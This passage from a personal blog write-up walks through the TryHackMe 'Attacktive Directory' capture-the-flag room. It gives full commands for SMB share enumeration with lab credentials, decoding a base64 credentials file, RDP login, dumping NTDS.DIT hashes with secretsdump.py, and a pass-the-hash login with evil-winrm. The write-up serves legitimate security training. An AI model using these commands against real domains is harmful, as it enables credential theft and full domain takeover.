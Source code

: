 There's six shares, but only five of these are disks. We'll poke around a bit using `smbclient //THM-AD/${SHARENAME} -I 10.10.177.198 -U svc-admin%management2005`; as one might guess, //THM-AD/backup contains a `backup_credentials.txt` file.

The contents of this file naively appear to be base64 encoded, and indeed piping it through `base64 -d` reveals that the password for the `backup` account is `backup2517860`.

We'll again pause to connect to the target as `backup` to get the second flag.

```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.177.198 /u:backup /p:backup2517860
```

This flag is in a file called `PrivEsc` on `backup`'s desktop.

## Elevating Privileges Within the Domain

The CTF now reveals that the `backup` account has all AD changes synced to it, including NT hashes, and that we can use Impacket's secretsdump.py file to obtain these from NTDS.DIT.

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -dc-ip 10.10.177.198 -target-ip 10.10.177.198 spookysec.local/backup:backup2517860@THM-AD
```

(I got a bit tripped up here, as I didn't read secretsdump.py's output carefully enough -- credentials are presented in the format `domain\uid:rid:lmhash:nthash`, so the relevant NTLM hash is the *last* hash for the `Administrator` account!)

We'll use the Evil-WinRM tool to retrieve the final flag by [passing the hash](https://en.wikipedia.org/wiki/Pass_the_hash).

```bash
evil-winrm --ip 10.10.177.198 --user Administrator --hash 0e0363213e37b94221497260b0bcb4fc
```

The final flag is in a file called `root.txt` on the `Administrator` account's desktop.

ELAPSED TIME: 2 h 38 min

## References

* [TryHackMe: Attacktive Directory](https://tryhackme.com/room/attacktivedirectory)
* [Kerberoasting initial: AS-REP Roasting](https://blog.certcube.com/as-rep-roasting-attack/)
* [Pass the hash](https://en.wikipedia.org/wiki/Pass_the_hash)

- - - -

👤 Nathan Acks  
📅 December 30, 2021

